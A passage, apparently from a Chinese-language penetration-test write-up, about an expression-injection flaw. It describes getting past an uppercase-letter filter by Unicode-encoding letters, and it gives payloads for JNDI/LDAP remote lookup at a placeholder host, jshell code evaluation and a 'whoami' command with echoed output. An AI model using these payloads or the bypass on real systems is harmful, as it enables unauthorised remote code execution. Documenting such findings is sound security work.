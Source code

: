 一开始以为是将一些危险的函数之类的做了黑名单的处理，进一步测试发现是将用户输入的所有大写字母都做了处理，不知道开发人员是怎么想的呢？让人摸不着头脑。

![图片](assets/1706513706-e3fb497074ec11eb0983d57e96deec51.png)

经过不懈的努力之后发现直接用unicode编码payload的大写字母就可以绕过了，如下，无回显执行命令成功。  

![图片](assets/1706513706-97fa4ad3d7c5a0ee0d21746e0fdcfcda.png)

当然，在不考虑实际漏洞利用环境限制的前提下，还有很多可以执行命令的方式。例如：

```plain
${new javax.naming.InitialContext().lookup("ldap://xxx.xxx.xxx.xxx/a")}  #JNDI注入利用，需要出网条件
${@jdk.jshell.Jshell@create().eval('java_code')}  #需要JDK9以后版本
```

构造回显payload，成功执行whoami命令，得知服务器操作系统为Windows，用户权限为管理员权限。  

```plain
${#a=(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder({'whoami'}).start().getInputStream()))).readLine()}
```

![图片](assets/1706513706-e7e3b0aed83cc9592f4300824e9507fb.png)

